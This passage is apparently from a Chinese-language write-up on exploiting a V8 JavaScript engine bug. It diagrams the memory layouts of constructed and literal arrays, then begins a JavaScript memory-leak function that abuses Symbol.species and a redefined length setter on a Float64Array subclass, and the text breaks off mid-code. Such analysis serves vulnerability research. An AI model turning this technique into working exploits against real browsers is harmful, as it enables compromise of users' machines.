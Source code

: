 经过调试分析，可以得到 V8 中的 Array 在内存中有两种布局（二者的区别在于 elements 是在 Array 的上面还是下面）：

```sh
## 第一种（Constructed Array）：
        --------------------------------------------
        +               map (Array)                +
        +------------------------------------------+
        +               prototype                  +
        +------------------------------------------+
        +               elements                   + ----------+
        +------------------------------------------+           | 
        +   length          |           0          +           |
        +------------------------------------------+           |
        +               properties                 +           |
        +------------------------------------------+           |
        +               ...                        +           |
        +------------------------------------------+           |
        +               map (elements)             + <---------+
        +------------------------------------------+
        +   length          |           0          +
        +------------------------------------------+
        +               elem values                +
        +               ....                       +
        +               ....                       +
        +               ....                       +
        --------------------------------------------

## 第二种（Literal Array）：
        --------------------------------------------
        +               map (elements)             + <---------+
        +------------------------------------------+           |
        +   length          |           0          +           |
        +------------------------------------------+           |
        +               elem values                +           |
        +               ....                       +           |
        +               ....                       +           |
        +               ....                       +           |
        +------------------------------------------+           |
        +               map (Array)                +           |
        +------------------------------------------+           |
        +               prototype                  +           |
        +------------------------------------------+           |
        +               elements                   + ----------+
        +------------------------------------------+
        +   length          |           0          +
        +------------------------------------------+
        +               properties                 +
        --------------------------------------------
```

因为漏洞触发后，影响的内存位置从 elements 开始，因此后一种分配方式对这次利用是更有利的，这里提供一种利用构造函数的办法对上面 leak 的方式稍作修改：

```js
function leak_1() {
// 根据上述思路实现内存泄漏

    // Symbol.species 返回 vulnA
    class vulnArray extends Float64Array {}
    var vulnA = new vulnArray(0x1337);
    vulnA.__defineSetter__("length", function() {});
    const constru = new Function();
    constru.__defineGetter__(Symbol.species, ()=>{
        return function() {
            return vulnA;
        }
```